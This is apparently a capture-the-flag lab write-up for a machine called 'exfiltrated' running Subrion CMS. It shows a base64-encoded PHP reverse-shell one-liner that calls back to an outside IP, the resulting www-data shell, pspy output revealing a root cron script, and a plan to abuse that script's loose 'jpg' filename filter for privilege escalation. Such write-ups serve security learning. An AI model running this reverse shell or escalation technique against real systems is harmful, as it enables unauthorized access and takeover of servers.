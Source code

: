 Used classic method for revshell
```
 echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguNDUuMjI0Iiw4MCk7ZXhlYygic2ggPCYzID4mMyAyPiYzIik7Jw== | base64 --decode
--------------------------------------------
bash -i
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@exfiltrated:/var/www/html/subrion/uploads$ 

```

Now downloaded linpeas.py

Hmm nothing interesting?

Downloaded pspy64 

```
2024/09/07 19:02:01 CMD: UID=0    PID=33016  | bash /opt/image-exif.sh 
2024/09/07 19:02:01 CMD: UID=0    PID=33015  | bash /opt/image-exif.sh 
2024/09/07 19:02:01 CMD: UID=0    PID=33014  | /bin/sh -c bash /opt/image-exif.sh 
2024/09/07 19:02:01 CMD: UID=0    PID=33013  | /usr/sbin/CRON -f 
```

Interesting image-exif.sh script is there.

```
www-data@exfiltrated:/opt$ cat image-exif.sh
cat image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
www-data@exfiltrated:/opt$ 

```

1. grep "jpg" isn't secure enough, we can create jpg.sh

```
www-data@exfiltrated:/opt/metadata$ cat 19ffa20cf8
cat 19ffa20cf8
ExifTool Version Number         : 11.88
File Name                       : jpg.sh
Directory                       : /var/www/html/subrion/uploads
File Size                       : 20 bytes
File Modification Date/Time     : 2024:09:07 19:12:25+00:00
File Access Date/Time           : 2024:09:07 19:12:25+00:00
File Inode Change Date/Time     : 2024:09:07 19:12:25+00:00
File Permissions                : rw-r--r--
File Type                       : sh script
File Type Extension             : sh
MIME Type                       : text/x-sh
```
